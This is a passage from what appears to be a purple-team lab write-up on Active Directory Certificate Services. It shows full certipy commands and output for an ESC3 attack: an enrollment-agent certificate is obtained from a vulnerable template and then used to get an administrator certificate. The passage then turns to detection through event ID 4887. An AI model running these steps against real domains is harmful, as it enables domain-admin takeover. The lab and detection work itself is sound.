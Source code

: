 ## 5.2 Exploitation

- Use the ESC3 vulnerable template to request a certificate

```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -dc-ip 172.16.0.1 -ca DC01-CA -target 'purpleteam.local' -template 'Vuln-ESC3'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 35
[*] Successfully requested certificate
[*] Got certificate with UPN 'attacker@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'attacker.pfx'
File 'attacker.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'attacker.pfx'
```

- Use this certificate to enroll any template on behald of the targeted account
```
└─$ certipy req -u attacker@purpleteam.local -p '1attacker*' -dc-ip 172.16.0.1 -ca DC01-CA -target 'purpleteam.local' -template 'User' -on-behalf-of administrator -pfx attacker.pfx 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 36
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

## 5.3 ADCS event logs

Here is a capture of event id 4887 being generated during the second step. 